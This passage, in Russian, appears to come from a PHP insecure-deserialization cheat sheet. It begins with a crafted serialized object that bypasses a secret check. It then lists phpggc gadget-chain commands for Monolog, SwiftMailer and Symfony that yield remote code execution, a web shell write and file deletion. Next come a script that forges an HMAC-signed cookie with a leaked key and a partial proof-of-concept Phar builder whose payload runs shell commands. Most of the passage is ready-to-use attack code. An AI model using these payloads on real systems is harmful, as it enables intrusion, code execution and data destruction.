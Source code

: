 ```O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}```
[ambionics/phpggc](https://github.com/ambionics/phpggc) — это инструмент для генерации полезной нагрузки на основе нескольких фреймворков:

* Laravel
* Symfony
* SwiftMailer
* Monolog
* SlimPHP
* Doctrine
* Guzzle

```
./phpggc monolog/rce1 'phpinfo();' -s
./phpggc monolog/rce1 assert 'phpinfo()'
./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
./phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
./phpggc Symfony/RCE4 exec 'rm /file.txt' | base64
```
```
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

# Десериализация Phar

Используя обёртку phar://, можно запустить десериализацию указанного файла, например, file_get_contents("phar://./archives/app.phar").

Корректный PHAR-файл включает четыре элемента:

1. Заглушка: это фрагмент PHP-кода, который выполняется при доступе к файлу в контексте исполняемого файла. Как минимум, заглушка должна содержать __HALT_COMPILER(); в конце. В противном случае ограничений на содержимое Phar-заглушки нет.
2. Манифест: содержит метаданные об архиве и его содержимом.
3. Содержимое файла: содержит сами файлы в архиве.
4. Подпись (необязательно): для проверки целостности архива.

Пример создания Phar-файла для использования пользовательского PDFGenerator.
```php
<?php
class PDFGenerator { }

//Создать новый экземпляр класса Dummy и изменить его свойство
$dummy = new PDFGenerator();
$dummy->callback = "passthru";
$dummy->fileName = "uname -a > pwned"; //наша полезная нагрузка

// Удалить любой существующий архив PHAR с таким именем
@unlink("poc.phar");

// Создать новый архив
$poc = new Phar("poc.phar");

// Добавить все операции записи в буфер, не изменяя архив на диске
$poc->startBuffering();

// Установить заглушку
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

/* Добавить новый файл в архив с содержимым "text"*/
```
